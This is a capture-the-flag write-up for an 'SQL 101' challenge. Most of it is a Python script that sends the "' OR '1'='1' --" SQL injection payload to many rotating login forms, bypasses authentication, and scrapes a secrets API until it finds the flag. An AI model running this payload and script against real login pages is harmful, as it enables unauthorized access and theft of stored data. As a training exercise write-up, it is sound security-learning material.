


# Writeup
author: th@m456 @ FesseMisk

## SQL 101


### Solution

We use EPT-box to create an instance for the challenge. The link provided shows us 101 login forms, whereas only one is vulnerable for SQL injection. From the challenge name, I assume it should be an easy standard type of SQL injection, which it turned out to be.


I created a script to automate the whole process, but I will explain the steps.

1. We need to find the vulnerable form, exploit it, and get the flag in under 60 seconds, as our sessions will time out. Each form has its own endpoint, which are rotated every 30 seconds - meaning we must gather the endpoints right before we attempt SQL injections.

2. After successful login on the vulnerable form, we now have under 60 seconds to find the flag. We can a reference to some "API docs", eventually leading us to a `api/secrets` endpoint.

3. In the `secrets` endpoint, we can extract pages of "secrets". There are a total av 126 pages containing 20 secrets each page, and we must traverse them all to find the flag.

So, I used the script below to do all steps in one go.
The scipt is not perfect, as the code was not fast enough to attempt all 101 forms in the 60s time of session validity. Therefore I opened several shells and executed the same script simultanously, only changing the pages-`range` in the loop command looking for the flag. I could've improven the code to use ThreadPool to solve that issue, but time was too important - so I did was felt was easiest.

```python
import requests
from bs4 import BeautifulSoup
import time

# Constants
BASE_URL = "https://fessemisk-f66b-allthoseforms.ept.gg"
INJECTION_PAYLOAD = "' OR '1'='1' --"
username = "' OR '1'='1' --"
SESSION_REFRESH_INTERVAL = 60  # Session validity time in seconds
URI_REFRESH_INTERVAL = 30      # URI refresh interval in seconds

def create_session():
    """
    Creates and configures a new session with appropriate headers.
    """
    session = requests.Session()
    session.headers.update({
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Origin": BASE_URL,
        "Referer": f"{BASE_URL}/login",
        "Content-Type": "application/x-www-form-urlencoded"
    })
    return session

def get_login_uris(session):
    """
    Fetches the login page and extracts current login form URIs.
    """
    try:
        response = session.get(f"{BASE_URL}/login", timeout=5)
        response.raise_for_status()

        soup = BeautifulSoup(response.text, 'html.parser')
        form_uris = [form.get('action') for form in soup.find_all('form') if form.get('action')]

        print(f"[DEBUG] Fetched {len(form_uris)} URIs: {form_uris}")
        return form_uris
    except requests.RequestException as e:
        print(f"[ERROR] Error fetching login URIs: {e}")
        return []

def request_secrets_page(session, page, cookies):
    """
    Requests a specific page from /api/secrets and prints the response.
    """
    api_secrets_url = f"{BASE_URL}/api/secrets?page={page}&page_size=20"
    try:
        api_secrets_response = session.get(api_secrets_url, cookies=cookies, timeout=5)
        print(f"[!] GET /api/secrets response for page {page}:\n{api_secrets_response.text}")
    except requests.RequestException as e:
        print(f"[ERROR] Failed to retrieve page {page} of /api/secrets: {e}")

def test_sql_injection(session, uri):
    """
    Sends SQL injection payload to the specified URI, follows redirection, and checks for success or failure.
    """
    url = f"{BASE_URL}{uri}"
    data = {"username": username, "password": INJECTION_PAYLOAD}

    try:
        # Send SQL injection attempt
        response = session.post(url, data=data, allow_redirects=False, timeout=5)

        # Follow redirect if response is 302
        if response.status_code == 302:
            redirect_url = response.headers.get("Location")
            if redirect_url:
                redirect_response = session.get(f"{BASE_URL}{redirect_url}", timeout=5)

                # Check for invalid login message on the redirected page
                if "Invalid login credentials" not in redirect_response.text:
                    print(f"[!] Possible success on {url}. Full Response:\n{redirect_response.text}")

                    # Extract session cookies
                    cookies = session.cookies.get_dict()

                    # Loop through pages and check for the flag
                    for page in range(1, 30):
                        request_secrets_page(session, page, cookies)
                        time.sleep(1)  # Optional: delay between requests
                        if "EPT{" in redirect_response.text:
                            print(f"[!] Flag found on page {page}")
                            break

                    return True
    except requests.RequestException as e:
        print(f"[ERROR] Request error on {url}: {e}")

    return False

def main():
    start_time = time.time()
    session = create_session()

    while True:
        # Refresh session every 60 seconds
        if time.time() - start_time >= SESSION_REFRESH_INTERVAL:
            session = create_session()
            start_time = time.time()
            print("\n[DEBUG] Session refreshed.")

        # Fetch and test login URIs
        uris = get_login_uris(session)
        for uri in uris:
            if test_sql_injection(session, uri):
                print("[!] Injection successful, vulnerable endpoint found.")
                return  # Exit if vulnerable endpoint is found

        print("[DEBUG] Waiting 30 seconds before the next attempt...")
        time.sleep(URI_REFRESH_INTERVAL)

if __name__ == "__main__":
    main()
```
This code found us our flag in secret no. 1592:

**{"id":1592,"text":"EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}**